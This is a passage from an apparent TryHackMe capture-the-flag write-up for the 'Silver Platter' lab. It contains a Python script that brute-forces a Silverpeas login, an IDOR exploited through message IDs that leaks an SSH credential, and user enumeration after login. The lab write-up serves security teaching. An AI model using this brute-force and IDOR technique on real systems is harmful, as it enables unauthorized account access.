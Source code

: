 ```python
import requests

with open("customlist.txt", "r") as dic:
    for line in dic.readlines():
        password = line.strip("\n")
    
        res = requests.post(
            "http://silverpeas.thm:8080/silverpeas/AuthenticationServlet",
            data={
                "Login": "scr1ptkiddy",
                "Password": password,
                "DomainId": 0
            }    
        )
        if "Login or password incorrect" not in res.text:
            print(password)
            break
```

Found this password: 

```
adipiscing
```

When logging in I was greeted by this landingpage:

![Landing page](/images/ctf/tryhackme/silverplatter/silveplatter-2.png)

Looking around I found a messaging utility:

![Messaging utility](/images/ctf/tryhackme/silverplatter/silveplatter-3.png)

Toying with the GET arguments, there seems to be an IDOR in the message ID argument, meaning I can access other peoples messages: 

![Messaging IDOR](/images/ctf/tryhackme/silverplatter/silveplatter-4.png)

The message contained this credential, which works for SSH:

```
tim:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

User flag can easily be obtained by logging in as Tim as reading the flag file in his home folder. Further inspection reveals that Tim is a part of an admin (adm) group: 

```bash
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

So Tim might have some elavated rights. Are there any other users on this system?

```bash
tim@silver-platter:~$ ls /home
tim  tyler
```
